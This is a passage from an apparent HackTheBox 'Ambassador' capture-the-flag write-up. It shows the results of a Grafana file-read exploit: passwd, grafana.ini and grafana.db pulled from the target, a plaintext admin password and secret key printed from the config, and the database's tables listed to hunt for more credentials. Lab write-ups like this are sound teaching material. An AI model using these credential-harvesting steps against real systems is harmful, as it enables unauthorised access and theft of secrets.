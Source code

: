 ![image](https://0xc0rvu5.github.io/docs/assets/images/20230119202035.png)

- Keep in mind if you happen to be on a fresh virtual machine with an up-to-date Kali instance you will find out there will be comparability issues. On top of that I had numerous issues spinning up a docker instance to emulate a `python3.9` instance because it isn't natively installed. You've been forewarned.
- After running the exploit you will have a new directory named:
- `http_ambassador_htb_300` or something similar.
	- The file structure will look like:

```bash
cmdline*  defaults.ini*  grafana.db*  grafana.ini*  passwd*
```
- Note you will be able to verify there is in fact a user named `developer` in the `passwd` or `/etc/passwd` file.

- In `grafana.ini` you can find login credentials to the site. There isn't much to go off of besides some sort of `*.json` upload functionality that doesn't seem to be much of a help.

```bash
bat grafana.ini

 211   │ #################################### Security ####################################
 212   │ [security]
 213   │ # disable creation of admin user on first start of grafana
 214   │ ;disable_initial_admin_creation = false
 215   │ 
 216   │ # default admin user, created on startup
 217   │ ;admin_user = admin
 218   │ 
 219   │ # default admin password, can be changed before first start of grafana,  or in profile settings
 220   │ admin_password = messageInABottle685427
 221   │ 
 222   │ # used for signing
 223   │ ;secret_key = SW2YcwTIb9zpOOhoPsMm

```

- In the `grafana.db` you can find some additional credentials.

```bash
sqlite3 grafana.db

SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
```